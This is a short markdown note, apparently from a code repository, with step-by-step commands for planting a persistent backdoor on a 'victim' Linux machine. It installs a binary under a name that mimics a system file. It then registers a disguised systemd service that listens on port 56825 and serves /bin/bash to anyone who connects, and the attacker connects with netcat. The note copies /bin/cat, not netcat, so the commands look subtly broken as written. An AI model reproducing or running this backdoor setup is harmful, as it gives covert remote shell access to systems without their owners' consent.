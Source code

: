 ## Victim
##### Create service
	cp /bin/cat /lib/systemd/systemd-service
	nano /lib/systemd/system/systemd.service
		[Unit]
		Description = Systemd Service
		After = network.target
		[Service]
		ExecStart = /lib/systemd/systemd-service -lvp 56825 -e /bin/bash
		[Install]
		WantedBy = multi-user.target
##### Start Service
	systemctl enable systemd.service
	systemctl start systemd.service
	netstat -auntp | grep 56825

## Attacker
	nc [victim ip] 56825